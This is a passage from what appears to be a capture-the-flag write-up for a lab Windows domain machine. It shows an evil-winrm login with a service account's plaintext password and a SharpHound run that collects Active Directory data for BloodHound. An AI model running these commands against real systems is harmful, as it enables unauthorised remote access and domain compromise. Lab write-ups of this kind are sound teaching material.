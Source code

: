 ```bash
evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

![evil_winrm_svc_loanmgr](screenshots/evil_winrm_svc_loanmgr.png)

We now have access as `svc_loanmgr`.

---
### 4.4 Domain Enumeration with BloodHound

Upload SharpHound:

![sharphound_uploaded](screenshots/sharphound_uploaded.png)

Execute collection:

```powershell
.\SharpHound.exe -c All --Domain EGOTISTICAL-BANK.LOCAL --DomainController 10.10.10.175 --ZipFileName sauna_bh.zip
```

